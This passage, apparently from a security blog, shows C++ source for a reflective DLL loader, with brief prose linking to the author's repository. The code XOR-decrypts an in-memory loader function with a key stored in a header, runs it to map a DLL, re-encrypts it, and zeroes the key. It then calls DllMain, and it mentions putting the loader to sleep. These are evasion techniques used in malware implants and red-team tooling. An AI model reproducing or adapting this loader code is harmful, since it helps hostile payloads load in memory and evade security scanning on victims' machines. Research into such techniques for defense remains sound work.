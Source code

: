 ```cpp
                    break;
                }
            }
        }
        dllBaseAddress--;
    }

    if (!dllBaseAddress)
        return FALSE;
   
    //retrieve the information to decrypt the loader, they are actually all in the struct already
    //decrypt the loader 
    PBYTE reflectiveAddr = NULL;
    //retrieve the key from memory
    //shifting bytes to extract the SIZE_T
    BYTE KEY[4] = { (BYTE)(pDllHeader->key & 0xFF), (BYTE)((pDllHeader->key >> 8) & 0xFF), (BYTE)((pDllHeader->key >> 16) & 0xFF), (BYTE)((pDllHeader->key >> 24) & 0xFF) };
    reflectiveAddr = (PBYTE)ReflectiveFunction;
    //decrypt the content of the ReflectiveFunction
    for (size_t i = 0, j = 0; i < (pDllHeader->funcSize); i++, j++) {
        if (j >= sizeof(pDllHeader->key)) {
            j = 0;
        }
        reflectiveAddr[i] = reflectiveAddr[i] ^ KEY[j];
    }
    //execute the loading tasks
    **pebase = ReflectiveFunction(pDllHeader->funcSize);**
    //re-encrypting the reflective function 
    for (size_t i = 0, j = 0; i < (pDllHeader->funcSize); i++, j++) {
        if (j >= sizeof(pDllHeader->key)) {
            j = 0;
        }
        reflectiveAddr[i] = reflectiveAddr[i] ^ KEY[j];
    }
    //before going to main we want to zero-out also the encryption key
    pDllHeader->key = 0x0;
    //and the GPARO GMHO
    //but not in this blog post :) 
    pDllMain = (fnDllMain)(pebase + pImgNtHdrs->OptionalHeader.AddressOfEntryPoint);
    return pDllMain((HMODULE)pebase, DLL_PROCESS_ATTACH, NULL);
   
}
```

Not much changed for what it concerns the actual reflective loader function comparing to what I have shared [here](https://github.com/oldboy21/RflDllOb/blob/afcd90b29d7797645dde7d963333a58e973fb5c0/ReflectiveDLL/dllmain.cpp#L614C4-L614C4). 

Main difference now is that the ReflectiveLoader returns **the base address where the DLL has been loaded so that the SupportLoader function can put ReflectiveLoader to sleep and execute the DLL main** 🙂
